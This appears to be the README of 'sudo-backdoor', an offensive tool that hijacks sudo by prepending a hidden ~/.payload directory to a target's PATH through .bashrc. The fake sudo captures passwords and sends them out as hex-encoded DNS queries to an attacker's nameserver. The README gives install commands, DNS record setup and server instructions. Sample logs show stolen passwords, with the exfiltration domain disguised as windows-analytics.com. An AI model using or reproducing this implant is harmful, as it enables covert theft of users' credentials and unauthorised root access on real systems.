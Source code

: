 # sudo-backdoor
Wraps around `sudo` and logs users credentials, for those annoying times when you get a shell/file write on a sudoers account without knowing their password.

# Installation
## 1. Installing the implant
Append the following line to the target user's `.bashrc` (or their appropriate shell's rc file) by running the following command:

`$ echo "export PATH=~/.payload:$PATH" >> ~/.bashrc`

Then, create `~/.payload/sudo` and paste the code found in this repository's `sudo` in there.

*Don't forget to make the bash script executable by issuing the following command:*

`$ chmod a+x ~/.payload/sudo`

Obviously you might have to adapt this installation recipe to fit the user's shell. If they are using zsh, then install to ~/.zshrc, etc.

## 2. Running the DNS Server

### 2.1 Setting up the nameserver
In your DNS settings, add a new wildcard NS (Name Server) record attached to the `de` subdomain, pointing to an A record directed at your server.

Example: 

```
| Record | Host | Value              | TTL   |
|--------+------+--------------------+-------|
| A      | ns1  | 10.0.0.2           | 1 min |
| NS     | *.de | ns1.yourdomain.com | 1 min |
```

### 2.2 Running the server
Then, on your server at 10.0.0.2, download the `dns-server.py` script and execute it as root.

Example: `# python dns-server.py`

Once it is started, when users affected by the sudo implant enter their credentials in the `sudo` prompt, you will receive their credentials in the `dns-server.py` stdout.

# Usage
Proof of concept: `testuser` is the target with password `passw0rd`.

## Targeted system
```
[testuser:~]$ echo $PATH
/home/testuser/.payload:/usr/local/sbin:/usr/local/bin:/usr/bin
[testuser:~]$ sudo id
[sudo] password for testuser:                → A wrong password is inserted here
Sorry, try again.
[sudo] password for testuser:                → The correct password is inserted here
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log) 
[testuser:~]$ sudo id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log) 
```

`sudo` remembers the cached credentials and does not prompt the second time around, as expected.

## DNS Server output
```
[root:~]# python dns-server.py
[06-26-17 11:06:42] Started DNS server on 0.0.0.0:53.
[06-26-17 11:11:57] #0  173.239.230.96  INVALID testuser        somewr0ng!pa55word
[06-26-17 11:08:11] #0  173.239.230.96  VALID   testuser        passw0rd
```
 
# Notes
Long passwords are also handled, example:
``` 
[06-27-17 11:47:39] Received 0.0.7465737475736572.54686973497341566572794C6F6E6750617373776F72645468617453686F75.de.windows-analytics.com
[06-27-17 11:47:39] #0  173.239.230.96  VALID   testuser        ThisIsAVeryLongPasswordThatShou
[06-27-17 11:47:39] Received 0.1.7465737475736572.6C644E6F744265496E746572727570746564496D70726F7065726C79.de.windows-analytics.com
[06-27-17 11:47:39] #1  173.239.230.96  VALID   testuser        ldNotBeInterruptedImproperly
```
Probably due to DNS round-robin, DNS queries sometimes do not reach the server in the proper order. Use the first column to identify the order.

# Licenses
`dns-server.py` is a fork of https://github.com/pathes/fakedns by @pathes
